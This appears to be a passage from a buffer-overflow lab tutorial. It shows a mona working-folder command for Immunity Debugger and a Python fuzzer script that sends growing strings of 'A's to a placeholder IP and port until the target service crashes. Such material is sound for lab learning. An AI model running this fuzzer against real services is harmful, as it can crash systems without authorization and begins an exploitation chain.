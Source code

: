 ![Mona commands](/assets/imgs/buffer_overflow/mona_commands.PNG)

Set the current working directory :

```
!mona config -set workingfolder c:\mona\%p
```

### Fuzzing 

Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger.

```
# fuzzer.py

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
```
